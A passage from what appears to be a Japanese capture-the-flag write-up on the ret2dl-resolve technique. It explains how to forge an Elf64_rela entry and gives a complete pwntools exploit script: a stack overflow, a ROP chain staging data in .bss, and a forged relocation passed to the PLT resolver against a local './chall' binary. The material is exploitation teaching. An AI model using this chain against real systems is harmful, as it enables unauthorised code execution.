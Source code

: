 ### 偽のElf64_rela構造体を用いたputsの呼び出し
変更ポイント：
* `0x1 << 32 | 0x7`を`r_info`としてセットした偽の`ELf64_rela`構造体を用意。
* スタックに積む`reloc_arg`を、`.rela.plt`セクションから偽の`ELf64_rela`構造体までのオフセットを0x18で割った値に変更。

```python=
#!/usr/bin/env python3
from pwn import *

elf = ELF("./chall")
rop = ROP(elf)
target = process("./chall")

addr_plt_puts = elf.plt["puts"]
addr_plt_gets = elf.plt["gets"]
addr_plt_exit = elf.plt["exit"]
addr_got_gets = elf.got["gets"]
addr_bss = elf.bss()

addr_plt_start = elf.get_section_by_name(".plt").header.sh_addr
addr_rela_plt = elf.get_section_by_name(".rela.plt").header.sh_addr

addr_pop_rdi = rop.find_gadget(["pop rdi", "ret"]).address 
addr_pop_rsi = rop.find_gadget(["pop rsi", "pop r15", "ret"]).address 

stack_size = 0x800
base_stage = addr_bss + stack_size

# fake rela.plt
fake_rela_offset = (base_stage + 0x10) - addr_rela_plt
fake_rela_align = 0x18 - (fake_rela_offset % 0x18)
fake_rela_offset += fake_rela_align

fake_rela = p64(addr_got_gets)       # r_offset
fake_rela += p64(0x1 << 32 | 0x7)
fake_rela += p64(0x0)

puts_reloc_arg = fake_rela_offset // 0x18

print("[*] addr .plt start : 0x{:x}".format(addr_plt_start))
print("[*] addr .rela.plt start : 0x{:x}".format(addr_rela_plt))

print("[*] addr fake rela : 0x{:x}".format(base_stage + 0x10))

buf = b'A' * 0x78
buf += p64(addr_pop_rdi)
buf += p64(base_stage)
buf += p64(addr_plt_gets)
buf += p64(addr_pop_rdi)
buf += p64(base_stage)
# buf += p64(addr_plt_puts)
buf += p64(addr_plt_start)
buf += p64(puts_reloc_arg)
buf += p64(addr_plt_exit)

_ = input()
target.sendline(buf)
target.sendline(b"/bin/sh\x00" + p64(0x0) + b"B" * fake_rela_align + fake_rela)

target.interactive()
```
